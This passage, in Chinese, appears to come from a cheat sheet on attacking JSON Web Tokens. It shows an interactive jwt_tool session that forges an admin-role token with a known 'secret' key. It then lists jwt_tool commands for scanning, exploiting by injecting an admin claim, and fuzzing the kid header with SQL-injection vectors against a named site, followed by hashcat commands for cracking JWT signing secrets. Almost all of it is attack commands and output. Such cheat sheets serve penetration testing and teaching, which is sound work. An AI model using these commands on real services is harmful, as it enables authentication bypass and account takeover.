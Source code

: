 最后，使用之前检索到的“秘密”密钥对令牌进行签名。

```powershell
令牌签名：
[1] 使用已知密钥对令牌进行签名
[2] 从易受 CVE-2015-2951 影响的令牌中剥离签名
[3] 使用公钥绕过漏洞进行签名
[4] 使用密钥文件对令牌进行签名

请从上述选项中选择一个（1-4）：
> 1

请输入已知密钥：
> secret

请输入密钥长度：
[1] HMAC-SHA256
[2] HMAC-SHA384
[3] HMAC-SHA512
> 1

您的新伪造令牌：
[+] URL 安全: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da_xtBsT0Kjw7truyhDwF5Ic
[+] 标准: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da/xtBsT0Kjw7truyhDwF5Ic
```

- 侦察: `python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw`
- 扫描: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -M pb`
- 利用: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`
- 模糊测试: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -I -hc kid -hv custom_sqli_vectors.txt`
- 审查: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`

#### Hashcat

> 在单块 GTX1080 上支持以 365MH/s 的速度破解 JWT（JSON Web Token） - [src](https://twitter.com/hashcat/status/955154646494040065)

- 字典攻击: `hashcat -a 0 -m 16500 jwt.txt wordlist.txt`
- 基于规则的攻击: `hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule`
- 暴力攻击: `hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6`

## JWT 声明
